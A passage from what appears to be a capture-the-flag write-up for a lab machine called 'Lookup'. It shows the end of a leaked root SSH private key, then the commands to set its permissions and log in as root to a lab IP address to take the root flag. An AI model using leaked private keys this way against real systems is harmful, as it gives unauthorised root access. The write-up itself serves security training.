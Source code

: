 ```console
3qXILoUzSmRum2r6eTHXVZbbX2NCBj7uH2PUgpzso9m7qdf7nb7BKkR585f4pUuI01pUD0
DgTNYOtefYf4OEpwAAABFyb290QHVidW50dXNlcnZlcg==
-----END OPENSSH PRIVATE KEY-----
```

This will allow us to ssh into the machine as root

All we need to do is copy the key into our attacking machine and make sure it has the correct permissions

```console
┌──(kali㉿kali)-[~/Lookup]
└─$ chmod 600 id_rsa
```

Now we can use it to get root via ssh

```console
┌──(kali㉿kali)-[~/Lookup]
└─$ ssh -i id_rsa root@10.10.38.13         
........
root@lookup:~# 
```

And get the root flag

![Root Flag](/assets/img/CTFs/Lookup/root.jpg)
